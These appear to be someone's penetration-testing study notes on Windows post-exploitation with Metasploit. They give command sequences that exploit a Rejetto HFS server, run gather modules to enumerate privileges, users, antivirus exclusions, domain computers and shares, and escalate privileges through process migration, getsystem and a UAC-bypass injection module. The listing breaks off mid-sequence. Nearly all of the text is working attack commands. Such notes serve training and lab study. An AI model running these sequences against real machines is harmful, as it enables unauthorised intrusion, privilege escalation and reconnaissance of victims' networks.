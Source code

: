 we can utilize these post exploiation modules to enumerate information about the windows system we currently have access to 
- enumerate user privlieges
- enumerate logged on users
- VM check
- enumerate installed programs
- enumerate AVs
- enumerate computers connected to domain
- enumerate installed patches
- enumerate shares


# Windows Post exploitation modules

	msfconsole
	use exploit/windows/http/rejetto_hfs_exec
	set RHOSTS ip
	exploit
	background
	use post/windows/gather/win_privs
	set SESSION 1
	exploit
	use post/windows/gather/enum_logged_on_users
	set SESSION 1
	exploit
	use post/windows/gather/checkvm
	set SESSION 1
	exploit
	use post/windows/gather/enum_applications
	set SESSION 1
	exploit
	use post/windows/gather/enum_av_excluded
	set SESSION 1
	exploit
	use post/windows/gather/enum_computers
	set SESSION 1 
	exploit
	use post/windows/gather/enum_shares
	set SESSION 1
	exploit


# Windows Privilege Escalation Bypassing UAC memory injection

	nmap ip
	nmap -sV -p80 ip 
	searchsploit hfs
	msfconsole
	use exploit/windows/http/rejetto_hfs_exec
	set RHOSTS ip
	exploit
	getuid
	sysinfo
	ps -S explorer.exe
	migrate 2440
	getsystem
	shell
	net localgroup administrators
	CTRL + C
	background
	use exploit/windows/local/bypassuac_injection
	set session 1